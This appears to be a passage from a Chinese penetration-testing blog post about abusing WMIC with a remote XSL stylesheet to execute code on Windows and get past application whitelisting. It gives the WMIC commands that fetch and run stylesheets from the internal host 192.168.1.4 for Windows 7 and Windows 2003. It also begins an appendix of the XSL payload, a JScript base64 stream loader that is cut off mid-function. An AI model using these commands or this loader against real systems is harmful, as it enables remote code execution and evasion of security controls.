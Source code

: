     C:\Windows\SysWOW64\wbem\WMIC.exe os get
    /format:"http://192.168.1.4/Micropoor.xsl"
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010160704609.png%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010160710905.png%23pic_center)-
Windows 2003：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010160722182.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010160727888.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

    WMIC.exe os get /format:"http://192.168.1.4/Micropoor_2003.xsl"
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010160743318.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**附录：**-
Micropoor\_Win7.xsl：

    <?xml version='1.0'?>
    
    <stylesheet
    
    xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas‐microsoft‐com:xslt"
    
    xmlns:user="placeholder"
    
    version="1.0">
    
    <output method="text"/>
    
    <ms:script implements‐prefix="user" language="JScript">
    
    <![CDATA[ 
    
    function setversion() {
    
    }
    
    function debug(s) {}
    
    function base64ToStream(b) {
    
    var enc = new ActiveXObject("System.Text.ASCIIEncoding");
    
    var length = enc.GetByteCount_2(b);
    
    var ba = enc.GetBytes_4(b);
    
    var transform = new ActiveXObject("System.Security.Cryptography.FromBase64Transform");
    
    ba = transform.TransformFinalBlock(ba, 0, length);
    
    var ms = new ActiveXObject("System.IO.MemoryStream");
    
    ms.Write(ba, 0, (length / 4) * 3);
    
    ms.Position = 0;
    
    return ms;
    